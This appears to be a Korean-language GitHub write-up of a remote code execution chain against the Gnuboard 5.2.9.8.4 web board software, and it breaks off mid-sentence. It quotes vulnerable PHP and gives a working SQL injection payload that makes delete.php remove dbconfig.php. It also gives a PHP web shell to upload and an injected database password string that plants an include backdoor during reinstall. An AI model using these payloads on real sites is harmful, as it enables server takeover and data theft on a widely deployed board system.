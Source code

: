 # 그누보드 5.2.9.8.4 RCE
>해당 취약점은 그누보드 5.2.9.8.4 에서 터지는 SQL Injection을 이용한 RCE 취약점입니다.
>
## 취약점 설명
>그누보드 /bbs/move_update.php 29~30,164 라인
<pre><code>$move_bo_table = $_POST['chk_bo_table'][$i];
$move_write_table = $g5['write_prefix'] . $move_bo_table;</code></pre>
>위의 코드를 보면 별다른 검증없이 "$_POST['chk_bo_table'][$i]" 변수의 값을 "$move_write_table" 변수에 넣어주는것을 알 수 있습니다.
<pre><code>sql_query(" update $move_write_table set wr_parent = '$save_parent' where wr_id = '$insert_id' ");</code></pre>
>그리고 위와 같이 sql_query함수를 이용하여 update 하는 SQL을 날려주는데 이때 테이블 clause에서 SQL Injection이 가능하고 update는 다른 테이블 참조 등이 가능합니다.

<pre><code>        $sql = " insert into {$g5['board_file_table']}
                    set bo_table = '{$bo_table}',
                         wr_id = '{$wr_id}',
                         bf_no = '{$i}',
                         bf_source = '{$upload[$i]['source']}',
                         bf_file = '{$upload[$i]['file']}',
                         bf_content = '{$bf_content[$i]}',
                         bf_download = 0,
                         bf_filesize = '{$upload[$i]['filesize']}',
                         bf_width = '{$upload[$i]['image']['0']}',
                         bf_height = '{$upload[$i]['image']['1']}',
                         bf_type = '{$upload[$i]['image']['2']}',
                         bf_datetime = '".G5_TIME_YMDHIS."' ";
        sql_query($sql);
    }</code></pre>

>그누보드에서 파일을 업로드하는 기능이 있는데 이 파일을 업로드 하면 위와 같이 "g5_board_file" 라는 테이블에 파일 명, 게시판 명, 게시글 번호 등등이 Insert 됩니다.

>이때 간단한 웹 쉘 코드인 "<?php system($_GET['cmd']); ?>" 등의 코드를 작성하여 업로드 합니다.

<pre><code>        if (!delete_point($row['mb_id'], $bo_table, $row['wr_id'], '쓰기'))
            insert_point($row['mb_id'], $board['bo_write_point'] * (-1), "{$board['bo_subject']} {$row['wr_id']} 글삭제");

        // 업로드된 파일이 있다면 파일삭제
        $sql2 = " select * from {$g5['board_file_table']} where bo_table = '$bo_table' and wr_id = '{$row['wr_id']}' ";
        $result2 = sql_query($sql2);
        while ($row2 = sql_fetch_array($result2)) {
            @unlink(G5_DATA_PATH.'/file/'.$bo_table.'/'.$row2['bf_file']);
            // 썸네일삭제
            if(preg_match("/\.({$config['cf_image_extension']})$/i", $row2['bf_file'])) {
                delete_board_thumbnail($bo_table, $row2['bf_file']);
            }
        }

        // 에디터 썸네일 삭제
        delete_editor_thumbnail($row['wr_content']);</code></pre>

>위는 당시와 비슷한 버전의 delete.php인데 위에서 insert 한 "g5_board_file" 테이블의 "bf_file" 컬럼의 값을 select하여 unlink 하는것을 알 수 있습니다.
>이를 위의 SQL Injection을 이용하여 다음과 같은 페이로드를 이용하여 해당 게시글의 bf_file 컬럼의 값을 변경해주었습니다

>"notice as a inner join `g5_board_file` as b set b.bf_file=0x2e2e2f646174612f6462636f6e6669672e706870 where wr_id=1 and bo_table=0x6e6f74696365#"

<pre><code>$mysql_host  = $_POST['mysql_host'];
$mysql_user  = $_POST['mysql_user'];
$mysql_pass  = $_POST['mysql_pass'];
$mysql_db    = $_POST['mysql_db'];
$table_prefix= $_POST['table_prefix'];
$admin_id    = $_POST['admin_id'];
$admin_pass  = $_POST['admin_pass'];
$admin_name  = $_POST['admin_name'];
$admin_email = $_POST['admin_email'];

$dblink = @mysql_connect($mysql_host, $mysql_user, $mysql_pass);</code></pre>

<pre><code>$file = '../'.G5_DATA_DIR.'/'.G5_DBCONFIG_FILE;
$f = @fopen($file, 'a');

fwrite($f, "<?php\n");
fwrite($f, "if (!defined('_GNUBOARD_')) exit;\n");
fwrite($f, "define('G5_MYSQL_HOST', '{$mysql_host}');\n");
fwrite($f, "define('G5_MYSQL_USER', '{$mysql_user}');\n");
fwrite($f, "define('G5_MYSQL_PASSWORD', '{$mysql_pass}');\n");
fwrite($f, "define('G5_MYSQL_DB', '{$mysql_db}');\n");
fwrite($f, "define('G5_MYSQL_SET_MODE', {$mysql_set_mode});\n\n");
fwrite($f, "define('G5_TABLE_PREFIX', '{$table_prefix}');\n\n");</pre></code>

> "dbconfig.php" 파일이 삭제되면 그누보드에선 install이 되지 않았다고 판단하여 위와 같은 install_db.php를 이용하여 다시 dbconfig.php 파일을 write해줍니다.
> 이 때 위와 같이 php코드를 패스워드나 db같은 부분에 본인의 mysql 서버에 " ');include($_GET['foo']);// "와 같은 DB or PASSWORD를 셋팅해주고 외부접속을 허용하여 "mysql_connect" 함수가 정상적으로 접근할 수 있게 맞춰줍니다.

>이 후 dbconfig.php 파일은 모든 파일을 

>그누보드에서는 각각의 게시판마다 g5_board 테이블에 있는 bo_include_head,bo_include_head 컬럼들의 값을 각각 상단 파일,하단 파일로 include합니다
